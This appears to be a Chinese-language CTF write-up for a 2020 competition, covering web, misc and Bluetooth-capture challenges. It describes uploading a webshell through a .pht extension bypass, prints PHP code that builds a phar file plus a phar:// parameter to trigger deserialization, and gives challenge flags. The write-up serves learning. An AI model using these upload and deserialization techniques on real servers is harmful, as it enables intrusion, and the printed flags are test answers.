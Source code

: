 # web

## 找色差吗?

查看js代码

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/1.png)

F12，控制台输入语句
```js
var _0x268d05 = { 'vFYyb': _0x2f2b('0x1983', 'vXeU'), 'rshMS': function _0x593385(_0x36599a, _0x5f41b7) { return _0x36599a / _0x5f41b7; }, 'xWQRG': function _0x337c99(_0x53c811, _0xe4afa4) { return _0x53c811 - _0xe4afa4; }, 'ZuQxI': function _0x242b7d(_0x4e358a, _0xbefac3) { return _0x4e358a * _0xbefac3; }, 'DCMCO': function _0x1e5dd4(_0x577f5a, _0x2dafd8) { return _0x577f5a > _0x2dafd8; }, 'bPzve': function _0x49960b(_0x43d8c9, _0x3dd75e) { return _0x43d8c9 === _0x3dd75e; }, 'GFiYI': function _0x1a3caa(_0x167948, _0x13fa0c, _0x580fa8) { return _0x167948(_0x13fa0c, _0x580fa8); }, 'rQJbg': _0x2f2b('0x1984', 'F8QA'), 'fwSPi': function _0xbc327(_0x3da5ce, _0x3e3e3c) { return _0x3da5ce(_0x3e3e3c); }, 'GkSez': '4|3|1|0|2', 'UVjif': _0x2f2b('0x1985', ']Z3^'), 'TQMlf': function _0x3c2939(_0x30791e, _0x108e7b) { return _0x30791e > _0x108e7b; } };

var _0x60a0ea = _0x268d05[_0x2f2b('0x1999', '6T2X')];

console['log'](strEnc('find_different_blocks', _0x60a0ea, '8c4f1', 'faf82'));
```
输出的字符串 md5

21E7AE40B06B28439D031D6848F6E5736B28CA5D50DB89BC34468C8195AC002AB593117A1BDAEA972B8C223883FA6443

得到flag

84673edf8a1ab819dadfdb5da4f41cfe

---

## easy upload

上传时进行 FUZZ,发现可以上传pht后缀的文件，上传一个一句话，蚁剑连接，查看flag

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/2.png)

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/3.png)

赛后看了下官方writeup,好像是非预期解

官方解法是
- 发现存在 index.php~文件，下载得到部分源码
- 经过一番上传测试之后发现文件名中只要含有 php 及其他 php 文件后缀就无法上传
- 但是发现只要不是 php 即可上传，同时由部分源码得知存在 ORZ 类，该类的析构函数会输出 flag
- 同时由源码得，虽然存在 ORZ 类，但是没有反序列化操作，而是将传入 filename 参数会被带入
file_get_contents 中执行。这里可以想到利用 phar://协议和文件上传来进行反序列化。
- 通过如下 php 代码生成 phar 格式文件（注意：要将 php.ini 中的 phar.readonly 选项设置为 Off，
否则无法生成 phar 文件），然后上传至服务器
    ```php
    <?php
        class ORZ{
            public function __destruct(){
            }
        }

        #unlink("phar.phar");
        $phar=new Phar("phar.phar");
        $phar->startBuffering();
        $phar->setStub("GIF89a"."<?php _HALF_COMPILER(); ?>");
        $o = new ORZ();
        $phar->setMetadata($o);
        $phar->addFromString("test.txt","test");
        $phar->stopBuffering();
    ```
- 通过上传构造好的 phar 文件，然后通过 file_get_contents 函数触发其中的反序列化
    - 根据返回得知上传后的文件地址
    - 之后通过 get 传递参数 `filename=phar://ec5decca5ed3d6b8079e2e7e7bacc9f2/phar.phar/test.txt` 即可获得 flag

---

# Misc

## 巨人的秘密

binwalk 跑一下发现有 zip 在里面,直接用 winrar 修复出来,然后改一下后缀名为 zip

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/7.png)

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/8.png)

通过 010 editor 将图片从图片源文件另存出来并压缩成 zip,确保 CRC 一致

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/9.png)

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/10.png)

然后进行明文攻击

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/11.png)

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/12.png)

结合 010 里看到的 DeEgger 可知是 DeEgger Embedder 隐写

解密

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/13.jpg)

根据主办方给出的工具 PixelJihad，用密码 Wings_of_freedom 成功解出

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/14.png)

---

# 创新组

## blueshark

binwalk 发现了一个 7z 的压缩包，直接当成压缩包打开，发现有个 password_is_Bluetooth_PIN.txt文件

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/4.png)

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/6.png)

Ctrl + F，选择 分组详情 或者 分组列表，字符串 或者 正则表达式，搜 pin。

![](../../../../assets/img/Security/CTF/writeup/2020-9-G60攻防大赛-writeup/5.png)

PIN 就是 141854。

用来解压就可以得到 flag。

6da01c0a419b0b56ca8307fc9ab623eb
